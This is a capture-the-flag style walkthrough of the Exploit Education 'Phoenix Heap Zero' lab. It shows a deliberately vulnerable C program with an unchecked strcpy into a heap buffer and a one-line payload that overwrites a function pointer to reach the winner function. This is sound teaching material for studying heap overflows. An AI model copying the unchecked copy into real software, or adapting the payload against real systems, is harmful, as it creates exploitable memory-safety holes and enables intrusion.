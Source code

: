 ```yaml
---
title: "Phoenix - Heap Zero"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/exploit-education/exploit-education.png
ribbon: red
description: "To learn more about heap exploitation, see the references at the end.
We will work with the **32bit** binaries for the heap levels because the **64bit** binaries have some addresses issues..."
categories:
  - Binary Exploitation
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  printf("%s\n", BANNER);

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

To learn more about heap exploitation, see the references at the end.

We will work with the **32bit** binaries for the heap levels because the **64bit** binaries have some addresses issues.

This code allocates two memory chunks and stores them in **d** and **f** so **f** is after **d** in the heap, then it uses **strcpy** to copy **argv[1]** to **d->name** but with out size checking, a classic overflow.

So if our input is large enough we can overwrite the value of **f->fp** to point to **winner** function.

Let's run the program:

```
$ /opt/phoenix/i486/heap-zero AAAA
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x804884e
level has not been passed - function pointer has not been overwritten
```

The offset between **data** and **fp** = 0xf7e69050 - 0xf7e69008 = 72 bytes.

Lets't get the address of winner function:

```
$ objdump -t /opt/phoenix/i486/heap-zero | grep winner
0804884e g     F .text	00000019 nowinner
08048835 g     F .text	00000019 winner
```

**winner** function is at  **0x08048835**.

# Solution:

```
$ /opt/phoenix/i486/heap-zero $(python -c "print 'A'*72 + '\x35\x88\x04\x08'")
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x8048835
Congratulations, you have passed this level
```

#### References:

[https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)

[https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/](https://sensepost.com/blog/2017/painless-intro-to-the-linux-userland-heap/)